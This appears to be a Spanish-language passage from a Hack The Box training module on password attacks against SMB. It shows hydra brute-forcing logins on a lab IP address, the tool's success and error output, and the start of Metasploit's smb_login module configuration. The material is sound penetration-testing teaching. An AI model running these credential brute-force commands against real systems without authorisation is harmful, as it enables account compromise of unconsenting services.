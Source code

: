 ```bash
sherlock28@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Por favor, no lo use en organizaciones militares o de servicios secretos, ni para fines ilegales (esto es no vinculante, estas *** ignoran las leyes y la ética de todos modos).

Hydra (https://github.com/vanhauser-thc/thc-hydra) iniciando el 2022-01-06 19:37:31
[INFO] Número de tareas reducido a 1 (smb no tolera muchas conexiones paralelas)
[DATA] Máx. 1 tarea por 1 servidor, en total 1 tarea, 25 intentos de inicio de sesión (l:5236/p:4987234), ~25 intentos por tarea
[DATA] Atacando smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 de 1 objetivo completado con éxito, se encontraron 1 contraseñas válidas
```

Sin embargo, también podemos obtener el siguiente error, que describe que el servidor ha enviado una respuesta no válida.

### **Hydra - Error**

```bash
sherlock28@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

```bash
Hydra v9.1 (c) 2020 por van Hauser/THC & David Maciejak - Por favor, no lo use en organizaciones militares o de servicios secretos, ni para fines ilegales (esto es no vinculante, estas *** ignoran las leyes y la ética de todos modos).

Hydra (https://github.com/vanhauser-thc/thc-hydra) iniciando el 2022-01-06 19:38:13
[INFO] Número de tareas reducido a 1 (smb no tolera muchas conexiones paralelas)
[DATA] Máx. 1 tarea por servidor, en total 1 tarea, 25 intentos de inicio de sesión (l:5236/p:4987234), ~25 intentos por tarea
[DATA] Atacando smb://10.129.42.197:445/
[ERROR] Respuesta no válida del objetivo smb://10.129.42.197:445/
```

Esto ocurre porque probablemente tenemos una versión desactualizada de **THC-Hydra** que no puede manejar respuestas SMBv3. Para solucionar este problema, podemos actualizar manualmente y recompilar **hydra**, o utilizar otra herramienta muy potente, el **framework Metasploit**.

### Metasploit Framework

```bash
sherlock28@htb[/htb]$ msfconsole -q
```

```bash
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 
```

```bash
bashCopiar códigoModule options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
```